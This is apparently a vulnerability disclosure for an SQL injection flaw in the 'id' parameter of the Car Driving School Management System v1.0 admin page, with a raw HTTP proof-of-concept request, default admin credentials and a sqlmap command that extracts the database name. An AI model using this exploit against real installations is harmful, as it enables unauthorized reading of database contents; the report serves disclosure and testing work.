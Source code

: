 ### SQL injection vulnerability exists in Sourcecodester Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route:/cdsms/admin/?page=enrollees/view_details&id=2

related code file:view_details.php

injection parameter:$_GET['id']

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the view_details.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.

![image-20240725211124607](assets/image-20240725211124607.png)

#### 2.Vulnerability verification and exploit

After admin/admin123 logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.Note that you need to modify the deployed IP address, port, and cookie information in the data packet according to the environment.

```
GET /cdsms/admin/?page=enrollees/view_details&id=2 HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1721700678; PHPSESSID=32r6u9afm833p0abeg632sl4id
Connection: close

```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240725211247145](assets/image-20240725211247145.png)

Successfully obtained the injected payload and database name.